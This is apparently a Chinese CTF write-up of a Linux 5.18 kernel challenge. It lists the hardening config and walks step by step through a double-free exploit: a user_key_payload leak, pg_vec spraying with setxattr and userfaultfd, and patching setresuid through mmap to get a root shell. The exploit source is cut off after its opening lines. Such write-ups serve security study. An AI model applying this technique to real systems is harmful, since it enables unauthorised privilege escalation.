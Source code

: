 给出了`kconfig`，保护全开，尤其注意开启了`CONFIG_MEMCG_KMEM`，这意味着只能考虑`GFP_KERNEL`的结构体来利用：

```markdown
CONFIG_SLAB_FREELIST_RANDOM=y
CONFIG_SLAB_FREELIST_HARDENED=y
CONFIG_SHUFFLE_PAGE_ALLOCATOR=y

CONFIG_STATIC_USERMODEHELPER=y
CONFIG_STATIC_USERMODEHELPER_PATH=""

CONFIG_MEMCG=y
CONFIG_MEMCG_SWAP=y
CONFIG_MEMCG_KMEM=y

CONFIG_DEBUG_LIST=y

CONFIG_HARDENED_USERCOPY=y
```

内核版本为`5.18`，但允许使用`userfaultfd`：

```c
echo 1 > /proc/sys/vm/unprivileged_userfaultfd
```

很标准的`USMA`利用，我们使用如下流程进行整个的利用：

- 创建子进程，子进程中创建命名空间

- 使用题目功能申请`obj`
- 使用题目功能释放`obj`
- 将其使用`user_key_payload`结构体来占用（注意选择合适的大小，防止临时`obj`占用）
- 使用题目功能释放`obj`
- 使用`setxattr + userfaultfd`，改写`user_key_payload`的`datalen`，并使其睡眠`3s` ---注意(a)



- 通过`user_key_payload`越界读到内核基地址
- 释放`user_key_payload`
- 申请`pg_vec`，大小为`kmalloc-512`
- 让刚刚睡眠的`setxattr`的`obj`此时醒过来，其现在会释放（让前几步中一共睡眠三秒）
- 使用`setxattr + userfaultfd`来多次申请并改写`kmalloc-512`中的`pg_vec`，提高成功率
- 使用`mmap`映射到用户态，改写`setresuid`的逻辑
- 通知父进程检查`uid`并得到`shell`

整个`exp`如下所示：

```c
#include "ltfallkernel.h"

#define ADD 0x5555
#define DELETE 0x6666

int dev_fd;
char* the_page;
size_t *uffd_addr;
size_t* uffd_addr_sleep3;

void add(int fd)
{
    ioctl(fd, ADD);
}

void delete(int fd)
{
    ioctl(fd, DELETE);
}

// 理一下思路，题目提供一个0x200的GFP_KERNEL的obj的double free
```